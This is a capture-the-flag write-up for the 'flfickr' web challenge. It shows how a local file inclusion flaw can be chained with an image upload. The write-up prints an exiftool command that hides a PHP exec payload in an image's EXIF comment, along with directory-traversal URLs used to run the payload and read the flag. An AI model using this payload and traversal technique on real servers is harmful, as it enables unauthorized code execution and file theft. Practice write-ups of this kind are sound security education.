 # **flfickr**

Category: web

Points: 500

Downloads: http://chal.ctf-league.osusec.org/flfickr.tar.gz

Access: http://flfickr.ctf-league.osusec.org/

Description:

Welcome to the latest and greatest image sharing platform, flfickr!

## **Reverse Engineering**

We look at the code in the provided `index.php` and `upload.php` files. We see that `upload.php` only allows us to upload .gif, .jpg, .jpeg, or .png file types, and uses validation to ensure this is the case. We also see in `index.php` that if we add `?language=` and then a path to the end of the website url, the website will attempt to load that file! Thus, we have a mechanism for uploading and then loading our own files. We can use this to upload a PHP script to the server and have it execute code to find the flag.

## **Running a PHP script**

Since the server validates that an uploaded file is actually an image, we need to embed our PHP script somehow. We can sue the EXIF data to do so. Using an image called `payload.png` we can run `exiftool -comment="<?php $output1 = exec('find / -name flag.txt'); echo $output1; ?>" > fl3.png` to set the photo comment to be a PHP script. We then upload this file to the website and navigate to http://flfickr.ctf-league.osusec.org/?language=../uploads/fl3.png to see the path for the flag. We go to this path using http://flfickr.ctf-league.osusec.org/?language=../../../../var/www/html/secrets/flag/i/bet/you/want/the/flag/well/its/in/this/directory/but/how/far/down/is/it/oooh/i/think/you/might/be/getting/close/oh/here/it/is/flag.txt/haha/just/kidding/that/was/a/directory/too/ok/fine/here/you/go/flag.txt to get our flag.

osu{LFI-L00K1nG_F0R_InFoRMa71oN}